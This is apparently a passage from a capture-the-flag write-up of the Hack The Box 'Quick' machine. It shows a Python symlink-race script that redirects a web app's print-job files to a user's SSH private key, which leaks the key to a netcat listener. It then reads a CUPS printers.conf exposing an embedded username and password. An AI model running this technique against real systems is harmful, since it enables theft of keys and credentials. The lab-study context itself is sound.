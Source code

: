 Once we press the print in the `Actions` , we need to go `job.php` from where it ask for  `Bill Details` and this is the main thing Once you Press the `Print` button it created a file in the format `date("Y-m-d_H:i:s")` and placed it in `/var/www/jobs/`and gives it `chmod 0777` permission to it and wait `sleep 0.5` and then it print out what we send from the web to the Printer which is our port listening in `9100`

So I made a simple python script, what it do is, it keeps on list the directory `/var/www/jobs` and once a file created here  it will symlink the `/var/www/jobs` file to the `srvadm` private keys. So when `file_get_contents` will print out the private key.

```python
#!/bin/python3

import os

while True:
	jobs = os.listdir("/var/www/jobs")

	if len(jobs) <= 0:
		continue
	for job in jobs:
		print(jobs)
		os.system(f"ln -sf /home/srvadm/.ssh/id_rsa /var/www/jobs/{jobs[0]}")
```

Started `Job` in the Actions

![Untitled](/img/htb-quick/Untitled%2018.png)

Make sure your python script is running and netcat too and click `Print`

![Untitled](/img/htb-quick/Untitled%2019.png)

The symlink works and my printer dumps the private key of `srvadm`

![Untitled](/img/htb-quick/Untitled%2020.png)

## Privilege Escalation

When looking around user `srvadm` folder there is `/.cache/conf.d`

```nix
srvadm@quick:~/.cache/conf.d$ ls
cupsd.conf  printers.conf
srvadm@quick:~/.cache/conf.d$ cat printers.conf 
# Printer configuration file for CUPS v2.3.0
# Written by cupsd on 2020-02-18 17:11
# DO NOT EDIT THIS FILE WHEN CUPSD IS RUNNING
NextPrinterId 5
[Printer Aviatar](Printer Aviatar)
.
.
.
.
.
.
MakeModel KONICA MINOLTA C554SeriesPS(P)
DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer
State Idle
StateTime 1549274624
ConfigTime 1549274625
Type 8401100
Accepting Yes
```

